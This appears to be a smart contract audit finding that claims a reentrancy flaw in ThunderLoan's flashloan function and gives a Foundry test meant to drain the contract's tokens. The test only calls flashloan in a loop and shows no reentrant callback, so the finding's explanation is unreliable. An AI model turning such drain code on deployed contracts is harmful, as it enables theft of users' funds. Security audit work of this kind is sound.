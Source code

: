 The `flashloan` function in the `ThunderLoan` contract has a potential reentrancy vulnerability that can be exploited to drain tokens from the contract. This vulnerability occurs because the function does not enforce proper order of operations when handling external calls, allowing an attacker to create a reentrancy attack. 

## Vulnerability Details

1. **Lack of Correct Sequence:** The function's improper order of operations, calculating a fee and updating exchange rates before verifying the user's contract (external), poses a reentrancy risk.

2. **Reentrancy Attack Vector:** The vulnerability arises from `executeOperation` on receiverAddress, allowing malicious or unexpected behavior, potentially disrupting the flash loan process.

## Impact

This vulnerability can lead to unauthorized reentrancy attacks, enabling malicious external contracts to disrupt the flash loan process and potentially drain assets from the ThunderLoan contract.

## POC

```
function testReentrancyAttack() public setAllowedToken {
    tokenA.mint(liquidityProvider, AMOUNT);

    vm.startPrank(liquidityProvider);
    tokenA.approve(address(thunderLoan), AMOUNT);
    thunderLoan.deposit(tokenA, AMOUNT);
    vm.stopPrank();

    AssetToken asset = thunderLoan.getAssetFromToken(tokenA);


    vm.startPrank(user);
    tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);

    // Simulate a reentrancy attack by repeatedly calling the flashloan function
    while (asset.balanceOf(address(thunderLoan)) != 0) {
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, AMOUNT, "");
    }

    vm.stopPrank();

    // Ensure the attack drained the tokens from ThunderLoan
    assertEq(asset.balanceOf(address(thunderLoan)), 0, "Tokens not drained");
}
```

## Tools Used

- Manual review

## Recommendations
